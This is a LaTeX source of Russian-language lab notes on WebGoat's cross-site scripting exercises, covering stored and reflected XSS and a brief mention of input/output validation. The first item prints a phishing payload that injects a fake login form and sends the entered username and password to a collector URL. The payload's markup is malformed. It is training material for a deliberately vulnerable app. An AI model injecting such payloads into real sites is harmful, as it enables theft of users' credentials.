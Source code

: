 \documentclass[11pt, a4paper]{article}		%
\begin{document}

\subsection{Межсайтовое выполнение сценариев}

\begin{itemize}

\item В первом задании нужно ввести в поле поиска вредоносный код, например, такой:

\begin{verbatim}
<form>
<form name="stealer">
Username: <input type="text" name="username"><br>
Password: <input type="password" name="password">
<input type="submit" value="Submit" onclick=<script><img src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user="+ document.stealer.username.value + "&password=" + document.stealer.password.value + "">
</script>
</form>
\end{verbatim}

После чего появяться поля, где нужно будет ввести логин и пароль, которые будут переданы на нужный сервер.

\item Хранимые Stored XSS

Хранимый XSS является наиболее разрушительным типом атаки. Хранимый XSS возможен, когда злоумышленнику удается внедрить на сервер вредоносный код, выполняющийся в браузере каждый раз при обращении к оригинальной странице. Классическим примером этой уязвимости являются форумы, на которых разрешено оставлять комментарии в HTML формате без ограничений, а также другие сайты Веб 2.0 (блоги, вики, имиджборд), когда на сервере хранятся пользовательские тексты и рисунки. Скрипты вставляются в эти тексты и рисунки.

В данном случае в одном из полей, которое храниться в базе данных и выводиться у других пользоателей нужно указать вредоностный javascript код в тэге <script>.

Для предотвращения можно сделать валидацию по вооду данных и валидацию по выводу на сервере.

\item Отраженные Reflected XSS

Атака, основанная на отражённой уязвимости, на сегодняшний день является самой распространенной XSS-атакой. Эти уязвимости появляются, когда данные, предоставленные веб-клиентом, чаще всего в параметрах HTTP-запроса или в форме HTML, исполняются непосредственно серверными скриптами для синтаксического анализа и отображения страницы результатов для этого клиента, без надлежащей обработки. Отражённая XSS-атака срабатывает, когда пользователь переходит по специально подготовленной ссылке.


\end{itemize}
\end{document}
